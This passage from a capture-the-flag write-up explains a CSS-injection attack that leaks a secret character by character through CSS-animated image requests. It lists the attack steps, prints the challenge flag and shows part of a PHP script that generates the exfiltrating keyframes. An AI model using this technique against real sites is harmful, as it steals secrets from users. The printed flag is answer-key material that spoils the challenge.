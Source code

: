 This technique, while very powerful, has a few downsides :

1. Once an image has been retrieved, the browser will keep it in its cache, and
   will thus not send a new request ;
2. Browsers may drop frames if too many keyframes are required to display an
   animation.

The first limitation can be circumvented by leaking triplets of characters:
if the secret is `deadbeef`, it will match `dea`, `ead`, `adb`, `dbe`, `bee` and
`eef`. These triplets can then be reconstructed easilly if all of them are
unique. (note that it would be much harder to apply this to a language)

The second limitation is circumvented in two ways: first by slowing down the
animation (29 seconds here, as the robot will stop after 30 seconds), and by
spreading the images on different properties. The following properties have been
identified as being able to retrieve images:
- `background-image`
- `border-image`
- `list-style-image`


## Attack

The attack consists in the following steps:
1. Generate a CSS file containing the CSS variables and animation (`gen.php`)
2. Fill the captcha to request an evaluation from the bot
3. Refresh the index page to obtain a lower-bound timestamp
4. Submit the evaluation form with pre-filled captcha
5. Refresh the index page to obtain a upper-bound timestamp
6. Retrieve every exfiltrated trigrams, and reconstruct them (`reconstruct.php`)
7. Spray the remote server with timestamp/signature couples (`pwn.sh`)


**Flag**: `justCTF{It_1s_t1m3_t0_b3gIN_n3w_eR4_0f_CS5_Inj3cTi0nS!}`


## Enhancements

While preparing this write-up, The Flat Network Society found a much faster and
realistic way to exfiltrate data from CSS : the `background-image` property
allows for an unlimited amount of URL to be requested. This can speed up the
execution to only a few seconds. It has been possible to solve this task within
the 5 seconds allocated for the easier `Ugly website` task.

Implementation is left as an exercise to the reader. ;-)


## Appendices

### gen.php
```php
<?php
function getFrames($count, $offset)
{
	$ret = "";
	for($i = 0; $i < $count; $i++) {
		$a = $offset + 3 * $i;
		$b = $a + 1;
		$c = $b + 1;
		$r = $i / $count * 100;

		$ret .= sprintf("%0.2f%% {", $r);
		$ret .= sprintf("background:var(--p%d); ",      $a);
		$ret .= sprintf("border-image:var(--p%d);",     $b);
		$ret .= sprintf("list-style-image:var(--p%d);", $c);
		$ret .= "}\n";
```